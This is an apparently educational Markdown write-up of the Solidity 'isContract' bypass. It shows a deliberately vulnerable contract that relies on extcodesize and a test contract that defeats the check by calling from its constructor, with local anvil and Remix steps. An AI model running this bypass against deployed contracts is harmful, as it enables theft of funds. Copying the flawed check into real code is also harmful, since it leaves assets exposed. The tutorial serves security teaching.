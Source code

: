 # 👿 isContract Manipulation
## The concept
There are two types of accounts in the Ethereum world.
1. EOA Externally Owned Accounts, these are users of wallets
2. Contracts, these are deployed smart contracts,

Sometimes there is a requirement to check if the caller is a EOA or a Contract.<br><br>
The code for this in solidity is to use inline assembly as below.<br><br>
```
assembly {
    contract_codesize := extcodesize(who_is_calling)
}
```
<br><br>
The code checks if the address at ```who_is_calling``` has code associated with it.<br><br>

There is a way to make a malicious contract seem as though there is no code associated with it, and that is by calling the vulnerable contract and function from within the malicious contract's constructor.<br><br>
Below is a vulnerable contract and a test contract to test this concept. We will be using anvil from the Foundry suite to deploy from Remix.<br><br>

```
// SPDX-License-Identifier: Unlicensed
pragma solidity 0.8.18;

contract VulnerableContract
{
    function notcontracts() public view returns (uint256 somethingReallyValuable)
    {
        //assume all checks are done
        uint256 contract_codesize;
        address who_is_calling;
        who_is_calling = msg.sender;
        //First check the extcodesize of the caller
        assembly {
            contract_codesize := extcodesize(who_is_calling)
        }
        if(contract_codesize > 0)
        {
            //THIS IS A CONTRACT CALLING SO THEY CAN'T GET OUR SUPER VALUABLE ASSET
            somethingReallyValuable = 0;
        }
        else
        {
            //THIS IS A USER CALLING SO THEY CAN GET ALL OF OUR SUPER VALUABLE ASSET
           somethingReallyValuable = type(uint256).max; 
        }
    }
}

contract testCodeSize{
    uint256 public allTheirValue;
    address public vulnerablecontract;

    //When the constructor runs the extcodesize is still 0
    //lets see what allTheirValue is after the constructor
    //allTheirValue should be uint256 Max value.
    constructor(address _vulnerablecontract){
        vulnerablecontract = _vulnerablecontract;
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }
    //This function should set allTheirValue to 0
    function wontWork() external {
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }


}
```

In the ```testCodeSize``` there is a variable called ```allTheirValue```, this will hold the value that is retrieved from the Vulnerable contract, if the call is able to bypass the check for code size we should see the ```allTheirValue``` variable holding a very large value, however if it fails the value should be "0". In the ```testCodeSize``` contract,  the call to ```VulnerableContract.notcontracts()``` is made from within the constructor and an external function called ```wontWork()```.<br><br>

Below are screenshots of the value held by ```allTheirValue``` after deployment and then after calling the ```wontWork()``` function.<br><br>

First deploy ```VulnerableContract```.<br>
Copy the deployed address of ```VulnerableContract``` and deploy the ```testCodeSize``` contract.<br>
Directly after the deployment of the ```testCodeSize``` contract, the value of the ```allTheirValue``` variable holds a really large value.<br><br>
![valueofallTheirValue1](images/valueofallTheirValue1.png)<br><br>
After calling ```VulnerableContract.notcontracts()``` the value of the ```allTheirValue``` variable is now "0" as the ```testCodeSize``` contract now has code associated with it.<br><br>
![valueofallTheirValue2](images/valueofallTheirValue2.png)<br><br>
